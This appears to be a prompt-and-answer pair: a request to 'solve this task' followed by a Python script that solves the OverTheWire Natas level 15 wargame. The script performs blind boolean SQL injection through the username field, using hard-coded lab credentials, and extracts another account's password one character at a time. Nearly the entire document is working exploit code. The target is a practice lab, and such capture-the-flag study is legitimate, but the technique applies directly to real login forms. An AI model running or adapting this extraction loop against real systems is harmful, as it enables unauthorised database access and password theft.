 Write a Python script to solve this task:

```python
import requests
import string

# Target information
url = "http://natas15.natas.labs.overthewire.org/index.php"
auth_username = "natas15"
auth_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
target_username = "natas16"

# Characters to try for the password
chars = string.ascii_letters + string.digits

# Function to check if a SQL condition is true
def check_condition(condition):
    # Create a payload that uses SQL injection to check our condition
    payload = {"username": f'natas16" AND {condition} #'}
    
    # Send the request with authentication
    response = requests.post(
        url,
        auth=(auth_username, auth_password),
        data=payload
    )
    
    # Check if the response contains "This user exists"
    return "This user exists" in response.text

# Extract the password
password = ""
password_length = 32  # We'll assume the password is 32 characters long

print("Starting password extraction...")

# Extract each character of the password
for position in range(1, password_length + 1):
    for char in chars:
        # Create a SQL condition that checks if the character at this position equals our guess
        condition = f"BINARY SUBSTRING((SELECT password FROM users WHERE username='{target_username}'), {position}, 1) = '{char}'"
        
        if check_condition(condition):
            password += char
            print(f"Found character at position {position}: {char}")
            print(f"Current password: {password}")
            break

print("\nExtraction complete!")
print(f"Password for {target_username}: {password}")
```
